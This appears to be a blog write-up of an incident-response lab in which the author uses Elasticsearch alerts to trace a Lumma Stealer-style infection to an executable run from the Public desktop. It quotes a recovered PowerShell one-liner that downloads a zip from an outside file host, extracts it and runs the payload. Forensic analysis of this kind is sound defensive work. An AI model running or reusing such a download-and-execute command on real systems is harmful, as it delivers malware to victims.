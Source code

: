 And we gained access to an Elasticsearch instance to work with. I know that the incident occurred on **02/17/2025** and check the alerts from that time as a starting point.

![](/assets/images/posts/2025-02-21-Homemade_Lumma Stealer/01.png)
So, we have a single machine (the victim's machine) and three different types of alerts. There are still too many alerts to work with, so I will try to narrow them down. I will filter for only **"Process Execution from an Unusual Directory"** since that should provide a good lead to start with.

![](/assets/images/posts/2025-02-21-Homemade_Lumma Stealer/02.png)

We can see that four alerts occurred around 11 o’clock and another four around 15 o’clock. Since the manager mentioned that the incident happened at **"2/17/2025 3:00 something Cairo time,"** I will narrow the timespan I examine to start from 15 o’clock. Additionally, we need to be aware that the alert timestamps are in Cairo time.

Six of the alerts are related to a process named `exec.exe`, and the first alert for that process occurred before the timeframe we are currently focusing on. Therefore, I will ignore them for now, as they are not a top priority.

Inspecting the alert related to `pretty_normal_file_x64.exe`, we see this:

![](/assets/images/posts/2025-02-21-Homemade_Lumma Stealer/03.png)


The executable named `pretty_normal_file_x64.exe` ran from the user `Public` desktop, which is indeed an unusual directory. I will try to create a timeline, so it is important to document the timestamp of each action. The alert was triggered at `2025-02-17T15:52:08.768Z`, and from the JSON tab, there is a field called `event.created`, which indicates that the actual process execution event was created at `2025-02-17T15:49:20.928Z`. The timestamps in the JSON tab are in UTC, but I will stick with Cairo time.

But how did this executable reach the machine in the first place? I will look for events where this executable appears. To do so, I will create a new `visualization`, set it to be `aggregation-based`, and choose `Data table`. I will start by identifying which log files contain this executable using the `Split row` option:

![](/assets/images/posts/2025-02-21-Homemade_Lumma Stealer/04.png)

This should be our reference when we want to look into specific events. I couldn't confirm it 100%, but `system.security` and `winlog.winlog` appear to be identical, so I will use `system.security` only.
Now, I want to see which log files contain `pretty_normal_file_x64.exe`:

![](/assets/images/posts/2025-02-21-Homemade_Lumma Stealer/05.png)

I will look into `windows.powershell_operational` in `Discover`, and here is what I found:

![](/assets/images/posts/2025-02-21-Homemade_Lumma Stealer/06.png)
I toggled the field `powershell.file.script_block_text` to appear as a column. We found a single value for the executed script:
```powershell
$uR = 'https://files.catbox.moe/edhauf.zip'; $dL = 'C:\Users\Public\Desktop\I am Arthur Morgan.zip'; Invoke-WebRequest -Uri $uR -OutFile $dL -UseBasicParsing; $extractPath = 'C:\Users\Public\Desktop\A legitimate software'; Expand-Archive -Path $dL -DestinationPath $extractPath -Force; Start-Process -FilePath 'C:\Users\Public\Desktop\A legitimate software\pretty_normal_file_x64.exe';
```
What this script essentially does is download `edhauf.zip` from a specific link to `C:\Users\Public\Desktop\I am Arthur Morgan.zip`, extract it into a folder named `A legitimate software`, and then execute `pretty_normal_file_x64.exe`. This script was executed at `2025-02-17T15:47:38.759Z`.

